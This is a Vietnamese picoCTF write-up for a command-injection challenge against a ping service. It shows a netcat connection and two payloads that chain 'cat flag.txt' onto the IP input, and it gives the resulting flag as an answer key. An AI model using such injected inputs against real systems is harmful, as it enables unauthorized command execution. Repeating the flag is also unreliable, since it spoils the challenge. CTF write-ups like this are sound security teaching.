


# picoCTF Writeup - ping-cmd

## Mục tiêu

Dưới đây là mô tả chi tiết từ đề bài:



Bài toán yêu cầu kết nối tới một dịch vụ mạng và gửi địa chỉ IP để ping. Dịch vụ có vẻ chỉ cho phép ping đến `8.8.8.8`, nhưng nhiệm vụ thực sự là khai thác đầu vào để lấy nội dung file bí mật.

## Phân tích

Từ hình ảnh:
- Dịch vụ hiển thị dòng: `Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8')`
- Khi gửi `8.8.8.8`, dịch vụ thực hiện ping và trả về kết quả.
- Thách thức này có dấu hiệu của lỗ hổng command injection: đầu vào của người dùng được truyền trực tiếp vào một lệnh ping và máy chủ không lọc đủ chặt.

Nghĩa là nếu ta nhập một chuỗi chứa `8.8.8.8` kèm theo ký tự phân tách lệnh như `;`, ta có thể ép hệ thống chạy thêm lệnh khác, ví dụ `cat flag.txt`.

## Khai thác

Các bước mình đã thực hiện để lấy flag:



Kết nối tới dịch vụ bằng netcat:

```bash
nc mysterious-sea.picoctf.net 56835
```

Sau đó gửi chuỗi khai thác:

```text
8.8.8.8; cat flag.txt
```

Hoặc với cùng ý tưởng nhưng khác dấu phân tách:

```text
8.8.8.8 && cat flag.txt
```

## Kết quả

Dịch vụ sẽ trả về kết quả ping bình thường của `8.8.8.8`, sau đó in nội dung của file `flag.txt`.

Ví dụ từ ảnh chụp màn hình:

```text
picoCTF{p1nG_c0mm@nd_3xpL0it_su33essFuL_b75fc848}
```

## Flag

`picoCTF{p1nG_c0mm@nd_3xpL0it_su33essFuL_b75fc848}`

## Ghi chú

Đây là một bài toán kiểu command injection đơn giản. Dấu hiệu nhận biết là dịch vụ cho phép ping một địa chỉ IP nhưng lại chỉ kiểm tra một kiểu dữ liệu hạn chế, nên đầu vào chưa được lọc đủ để tránh chèn lệnh độc hại.
